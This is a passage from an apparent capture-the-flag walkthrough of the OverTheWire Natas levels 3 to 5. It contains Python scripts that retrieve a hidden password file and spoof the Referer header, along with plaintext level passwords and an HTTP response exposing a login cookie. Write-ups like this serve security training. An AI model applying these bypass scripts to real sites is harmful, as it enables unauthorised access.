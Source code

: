 Inside `~/s3cr3t/users.txt`

```py
import requests
import re

username = 'natas3'
password = 'G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q'
url = 'http://%s.natas.labs.overthewire.org/s3cr3t/users.txt'%username

response = requests.get(url,auth=(username,password))
content = response.text

flag = re.findall("natas4:(.*)",content)[0]
print(flag)
```

---

### Natas4

Content of **Natas 4**

Something new this time! This time when we visit the challenge page we get the following:

```
Access disallowed. You are visiting from "" while authorized users should come only from (http://natas5.natas.labs.overthewire.org/
```

So we are changing the headers username as natas5 using `headers` attribute in requests()

```py
import requests
import re

username = 'natas4'
password = 'tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm'

headers = { "Referer": "http://natas5.natas.labs.overthewire.org/" }

url = 'http://%s.natas.labs.overthewire.org'%username
response = requests.get(url, auth=(username,password), headers=headers)
content = response.text
flag = re.findall("natas5 is (.*)",content)[0]
print(flag)
```

---

### Natas 5

Content of natas5
Your not loggedin

```
HTTP/1.1 200 OK
Date: Thu, 27 Oct 2016 21:18:31 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.20
Set-Cookie: **loggedin=0**
Vary: Accept-Encoding
Content-Length: 855
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html
```
